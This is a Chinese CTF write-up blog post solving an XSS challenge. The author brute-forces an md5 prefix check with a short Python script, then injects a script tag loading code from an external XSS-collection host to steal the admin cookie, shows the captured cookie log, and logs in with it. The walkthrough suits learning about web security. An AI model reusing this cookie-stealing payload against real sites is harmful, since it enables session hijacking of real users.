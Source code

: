 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      XSS攻击--获取cookie  # 标题 
subtitle:   跨站脚本攻击   #副标题
date:       2020-03-14              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - XSS  
    - Web
    
---
```


## 原理:

跨站脚本攻击是指恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

xss漏洞通常是通过php的输出函数将javascript代码输出到html页面中，通过用户本地浏览器执行的，所以xss漏洞关键就是寻找参数未过滤的输出函数。




## 题目:
Leave a message:（                  ）

substr(md5('       '),0,6) === '51a081'



## 考察点：

**1.XSS攻击获取cookie**

**2.md5截断绕过**

## 知识点：

**实例**

从字符串中返回 "world"：

``` php
<?php
echo substr("Hello world",6);
?>
```

语法：`substr(string,start,length)` 

**start**
             必需。规定在字符串的何处开始。
             正数 - 在字符串的指定位置开始
             负数 - 在从字符串结尾的指定位置开始
              0 - 在字符串中的第一个字符处开始
**length**
             可选。规定要返回的字符串长度。默认是直到字符串的结尾。
             正数 - 从 start 参数所在的位置返回
             负数 - 从字符串末端返回


## 解题过程：

**1.** 首先分析页面代码，发现留言框里面可能出现xss漏洞，然后我发现要想成功插入留言内容，必须需要满足`substr(md5('       '),0,6) === '51a081' `的条件，此条代码的含义是括号中的字符串的md5值前六位为`51a081`，可以通过python脚本进行字典爆破。

``` python
import hashlib
for i in range (100000000):
    a=str(i)
    md5=hashlib.md5(a.encode('utf-8')).hexdigest()
    if md5[0:6]=='51a081':
        break
print (a)

```

得到结果：`252192`

**2.** 允许插入的条件满足了，然后就是利用[XSS平台](https://xsshs.cn/)进行获取`cookie`。先在XSS平台，创建项目，选取默认设置即可。然后将项目后的XSS代码，`<sCRiPt/SrC=//xsshs.cn/PArz>`插入留言框，等待几分钟，发现XSS平台已经得到了管理员的`cookie`。

---
location : http://web/usermessages/1584098792-443ed1dd377f4a44f536c2830eb8f606.html
toplocation : http://web/usermessages/1584098792-443ed1dd377f4a44f536c2830eb8f606.html
cookie : token=a9011a0e551f181c1c526881befac44d
opener : 

---

**3.**将cookie复制下来，用菜刀进行登录admin.php界面，拿到flag！



**flag{this_is_a_xss_flag}**





[参考链接（一）--XSS简介](https://www.jianshu.com/p/4fcb4b411a66)

[参考链接（二）--XSS平台的使用](https://www.sohu.com/a/111617739_458138)

## 谢谢您的查阅，欢迎来访！
